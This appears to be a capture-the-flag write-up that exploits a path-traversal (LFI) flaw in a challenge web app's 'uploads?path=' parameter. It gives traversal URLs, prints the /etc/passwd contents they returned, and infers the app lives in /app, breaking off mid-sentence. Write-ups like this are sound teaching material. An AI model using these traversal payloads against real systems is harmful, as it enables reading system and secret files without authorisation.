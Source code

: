 ```
http://chall.bsidesalgiers.com:8003/uploads?path=static/schrodinger-funeral.jpg
```

Humm i smell some LFI here, let's try reading /etc/passwd

```
http://chall.bsidesalgiers.com:8003/uploads?path=static/../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:/bin/bash
```

Great! then i tried guessing some files in /home/ctf/ but 
couldn't find any.
So i tried guessing the full path of the web folder
i found that the parent of `static` is `uploads` because this path still loads the image correctly.

```
http://chall.bsidesalgiers.com:8003/uploads?path=static/../../uploads/static/schrodinger-funeral.jpg
```

So now i need only one other folder, which is in the root `/` folder i tried all common names like `/var`,`/srv`

but then i asked myself, it's kinda weird, why a web app would be stored in the `/` ? Then i instantly remembered it's a container,
and usually in all containers they store files in the `/app` folder

```
http://chall.bsidesalgiers.com:8003/uploads?path=static/../../../app/uploads/static/schrodinger-funeral.jpg
```

Yessss ! it works.

then i just had to do

